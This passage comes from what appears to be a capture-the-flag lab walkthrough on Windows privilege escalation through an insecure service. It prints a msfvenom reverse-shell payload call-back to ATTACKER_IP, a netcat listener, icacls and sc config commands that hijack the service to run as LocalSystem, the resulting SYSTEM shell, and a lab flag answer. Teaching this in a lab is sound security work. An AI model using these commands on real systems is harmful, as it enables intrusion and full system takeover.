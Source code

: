         SERVICE_ALL_ACCESS
```
Here we can see that the ```BUILTIN\\Users``` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

Kali Linux
```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
```
We will then transfer the reverse shell executable to the target machine and store it in ```C:\Users\thm-unpriv\rev-svc3.exe```. Feel free to use ```wget to transfer your executable``` and move it to the desired location. 

```Remember to grant permissions to Everyone to execute your payload:```

Command Prompt
```
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```
To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

Command Prompt
```
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```
Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

Command Prompt
```
C:\> sc stop THMService
C:\> sc start THMService
```
And we will receive a shell back in our attacker's machine with SYSTEM privileges:


Kali Linux
```
user@attackerpc$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
```
Go to the Administrator's desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

---


1. Get the flag on svcusr1's desktop.

Answer : THM{AT_YOUR_SERVICE}

2. Get the flag on svcusr2's desktop.
![img](/assets/img/wpe12.png)

```